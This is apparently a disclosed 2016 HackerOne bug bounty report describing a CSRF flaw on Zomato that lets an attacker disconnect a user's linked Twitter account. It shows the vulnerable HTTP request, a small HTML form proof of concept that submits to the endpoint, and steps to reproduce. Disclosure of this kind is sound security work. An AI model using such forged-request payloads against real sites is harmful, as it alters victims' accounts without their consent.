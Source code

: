 # Twitter Disconnect CSRF

## Report Details
- **Report ID**: 114127
- **URL**: https://hackerone.com/reports/114127
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-02-02T14:11:44.905Z
- **Disclosed**: 2016-09-30T11:18:01.605Z

## Reporter
- **Username**: hussain_0x3c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
**Hi**

Using this CSRF vulnerability one could disconnect  Twitter account from their profiles.

**Vulnerable request**
~~~
GET /php/disconnect_twitter_profile.php HTTP/1.1
Host: www.zomato.com
Connection: keep-alive
Accept: text/html, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.97 Safari/537.36
Referer: https://www.zomato.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
X-dotNet-Beautifier: 668; DO-NOT-REMOVE
~~~
**POC Code**
~~~
<html>
<body>
<form action="https://www.zomato.com/php/disconnect_twitter_profile.php">
 <input type="submit" value="disconnect" />
</form>
</body>
</html>
~~~

**Steps to reproduce**

* Add  Account Twitter  
* Connect to your twitter account
* Use the above poc code to disconnect the twitter account

**Regards**
**Husssain**


## Attachments
No attachments
